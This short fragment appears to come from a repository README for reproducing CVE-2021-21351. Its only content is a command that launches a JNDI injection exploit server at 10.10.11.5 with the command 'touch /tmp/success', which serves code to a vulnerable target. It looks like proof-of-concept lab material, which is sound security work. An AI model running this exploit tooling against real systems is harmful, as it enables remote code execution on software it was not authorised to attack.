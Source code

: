 # CVE-2021-21351

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/success" -A 10.10.11.5
